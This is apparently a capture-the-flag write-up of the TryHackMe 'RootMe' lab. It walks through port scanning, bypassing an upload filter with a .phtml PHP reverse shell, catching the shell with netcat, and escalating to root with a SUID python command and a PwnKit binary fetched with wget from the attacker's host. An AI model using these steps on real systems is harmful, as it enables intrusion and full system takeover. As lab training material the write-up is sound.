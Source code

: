# THM - RootMe

#### Ip: 10.10.0.217
#### Name: RootMe
#### Rating: Easy

----------------------------------------------------------------------

![rootme.png](../assets/rootme_assets/rootme.png)

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -p-  --min-rate 10000 10.10.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:17 CDT
Warning: 10.10.0.217 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ sudo nmap -sC -sV -T4 10.10.0.217 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:18 CDT
Nmap scan report for 10.10.0.217
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.38 seconds
```

Navigating to the site we find this webpage:

![page.png](../assets/rootme_assets/page.png)

I'm not seeing any links nor am I finding anything of interest in the page source, so lets kick off some directory fuzzing:

![ferox.png](../assets/rootme_assets/ferox.png)

Cool, the /uploads and /panel directories seem interesting. Navigating to http://10.10.0.217/panel/ we see a file upload feature. Lets try using a PHP reverse shell from PentestMonkey.

### Exploitation

We'll need to go ahead and update the IP adress field, as well as add which port we'll be listening on:

![php.png](../assets/rootme_assets/php.png)

After setting up a NetCat listener on port 443 we can try to upload the script:

![nophp.png](../assets/rootme_assets/nophp.png)

Dang, looks like the site is filtering out the PHP extension. No problem, there are a few potential ways around this.

First lets copy the magic bytes (or file signatures) for a .png file and paste them at the beginning of the PHP shell:

![bytes.png](../assets/rootme_assets/bytes.png)

From here we can save the script and it will hopefully be interpreted as an image. Lets save the script with the magic bytes as not_a_php_shell.png

We can then succesfully upload our disguised shell:

![success.png](../assets/rootme_assets/success.png)

Recalling that we also found an /uploads directory, we can navigate there and trigger our exploit:

![uploads.png](../assets/rootme_assets/uploads.png)

Rats, that failed as well. 

![fail2.png](../assets/rootme_assets/fail2.png)

Another approach we can take is modifying the .php file extension. Perhaps the app is simply blacklisting vanilla PHP, but maybe not something like .phtml. Lets save our script now as shell.phtml and try to upload again.

![success2.png](../assets/rootme_assets/success2.png)

And we can execute the script by clicking on the file in the /uploads directory to get a shell back on our listener:

```text
┌──(ryan㉿kali)-[~/THM/RootMe]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.0.217] 59718
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:41:22 up 29 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
rootme
$ python3 -c 'import pty;pty.spawn("/bin/bash")'


www-data@rootme:/$
```

Nice!, Now we should be able to grab the user.txt flag:

![user_flag.png](../assets/rootme_assets/user_flag.png)

### Privilege Escalation #1

Lets move into the `/tmp` directory and copy over LinPeas to help find the privilege escalation vector.

![transfer.png](../assets/rootme_assets/transfer.png)

Cool, looks like Python has the SUID bit set. This should be a walk in the park from here on out.

![suid.png](../assets/rootme_assets/suid.png)

Heading over to https://gtfobins.github.io/ and searching for Python, we find the exact command we'll need to escalate privileges:

![gtfobins.png](../assets/rootme_assets/gtfobins.png)

Changing directories to `/usr/bin` all we need to do is run:


```text
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
And we'll drop into a root shell, from which we can grab the root.txt flag:

![root_flag.png](../assets/rootme_assets/root_flag.png)

### Privilege Escalation #2

Another vector identified by LinPeas was PwnKit.

![pwnkit.png](../assets/rootme_assets/pwnkit.png)

This is an extremely common finding on older, upatched boxes, and can be a very quick win. Exploiting it takes just a second or two:

```text
www-data@rootme:/tmp$ wget http://10.6.61.45/PwnKit
--2023-07-24 15:59:10--  http://10.6.61.45/PwnKit
Connecting to 10.6.61.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: 'PwnKit'

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.1s    

2023-07-24 15:59:10 (133 KB/s) - 'PwnKit' saved [18040/18040]

www-data@rootme:/tmp$ chmod +x PwnKit
www-data@rootme:/tmp$ ./PwnKit
root@rootme:/tmp# whoami
root
root@rootme:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
A detailed writeup of the vulnerability can be found here:

https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

Thanks for following along!

-Ryan

---------------------------------------------------------------------



